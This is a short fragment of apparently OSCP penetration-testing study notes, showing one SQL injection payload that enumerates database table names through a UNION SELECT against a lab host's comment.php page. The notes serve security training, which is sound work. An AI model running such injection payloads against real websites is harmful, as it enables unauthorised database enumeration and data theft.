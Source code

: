 # oscp-notes

##SQL Injection

###Enumerating the Database (using union statements)
```
http://10.11.14.19/comment.php?id=782%20union%20select%201,2,3,4,table_name,6%20from%20information_schema.tables
